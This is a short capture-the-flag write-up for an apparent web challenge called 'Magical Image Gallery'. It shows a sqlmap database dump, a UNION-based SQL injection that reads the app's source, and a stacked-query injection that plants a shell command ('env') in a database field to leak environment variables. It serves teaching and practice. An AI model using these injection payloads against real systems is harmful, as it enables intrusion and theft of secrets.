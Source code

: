 # Magical Image Gallery

## 1. Flag 1

```shell
 sqlmap -u http://34.74.105.127/2d2add86c2/fetch?id=2 --dump --dbms MySQL --threads 10
```

Database: level5
Table: albums
[1 entry]

| id   | title   |
| ---- | ------- |
| 1    | Kittens |


Database: level5
Table: photos
[3 entries]

| id   | title            | parent | filename                                                     |
| ---- | ---------------- | ------ | ------------------------------------------------------------ |
| 1    | Utterly adorable | 1      | files/adorable.jpg                                           |
| 2    | Purrfect         | 1      | files/purrfect.jpg                                           |
| 3    | Invisible        | 1      | 68d620e8a1324fdb95745c261e0ca0c5363e5c106d2744d41bed40f38ef08f41 |
Flag is in row 3 filename add the Flag pefix and Suffix.



## 2. Flag 2

```http
view-source:http://34.74.105.127/2d2add86c2/fetch?id=0 union select "main.py" --
```

Gives code and contains a Flag.

## 3. Flag 3

Didn't knew about using commit actually executes multiple queries.

Tried redirecting command output to base64 but was splited by "\n" split in python code so used `tr`

```http
http://34.74.105.127/2d2add86c2/fetch?id=2; update photos set filename="; env | tr \"\n\" \" \"" where id=3 ; commit;--
```

Outputs the content of env on the home page. 

Contains flags.
